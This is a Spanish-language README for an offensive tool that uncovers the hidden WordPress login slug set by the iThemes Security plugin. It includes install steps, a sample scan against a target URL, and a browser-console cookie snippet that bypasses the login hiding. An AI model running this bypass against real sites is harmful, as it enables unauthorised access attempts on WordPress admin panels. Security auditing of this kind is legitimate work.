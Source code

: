 # 🔓 Bypass_iThemesSecurity

Herramienta de detección y explotación de slugs ocultos generados por el plugin **iThemes Security** en instalaciones WordPress mal configuradas o desactualizadas.

> ⚠️ Basada en la vulnerabilidad documentada en:  
> [WPScan Advisory - iThemes Security <= 8.1.2](https://wpscan.com/vulnerability/42fdb534-3aef-4ed7-94a8-4cfe8ff977e1)

---

## 🧠 ¿Qué hace esta herramienta?

`Bypass_iThemesSecurity` automatiza la detección de tokens (`slugs`) ocultos usados por iThemes Security para mover el acceso al panel de login de WordPress (`wp-login.php`). Si el sitio está desactualizado o mal configurado, esta herramienta puede encontrar ese slug y permitir el **bypass completo** del ocultamiento.

---

## 🎯 Casos de uso

- Red Teams y Pentesters que necesiten evadir plugins de ocultamiento de login.
- Auditores de seguridad en entornos WordPress.
- Investigadores de seguridad interesados en fingerprinting de instalaciones WordPress.
- Cazadores de bugs que validan configuraciones erróneas.

---

## 🚀 Requisitos

- Python 3.7+
- Librerías:
  - `requests`
  - `beautifulsoup4`
  - `rich`
  - `pyfiglet`

## 📥 Instalación

### 1. Clonar el repositorio

```bash
git clone https://github.com/AndreewNR/Bypass_iThemesSecurity.git
cd Bypass_iThemesSecurity
```

### 2. Instalar dependencias

```bash
pip install -r requirements.txt
```

## ⚙️ Uso

Ejecuta la herramienta con:

```bash
python main.py
```

### 🧪 Ejemplo de uso

[+] Ingresa la URL objetivo (sin / al final): https://tudominio.com

🔍 Iniciando escaneo de slugs ocultos en: https://tudominio.com

🔄 Probando slug: 6bcbbd3fc2
🔄 Probando slug: loginadmin
🔄 Probando slug: abc123...

✅ ¡Bypass exitoso! Slug válido: loginadmin
🔗 Accede directamente: https://tudominio.com/wp-login.php

### 🍪 ¿Y si quieres probar el bypass manualmente?

Puedes simular el bypass en el navegador usando cookies. Si la herramienta detecta un slug válido y entrega cookies, puedes abrir la consola de tu navegador (F12) y ejecutar:
```bash
document.cookie = "itsec-hb-token=loginadmin";
window.location.href = "/wp-login.php";
```

###⚠️ Descargo de responsabilidad
Esta herramienta es solo para fines educativos y auditorías autorizadas.
El uso no ético o en sistemas sin permiso explícito podría violar leyes locales.
`Autores y colaboradores no se hacen responsables del uso indebido de este software.`
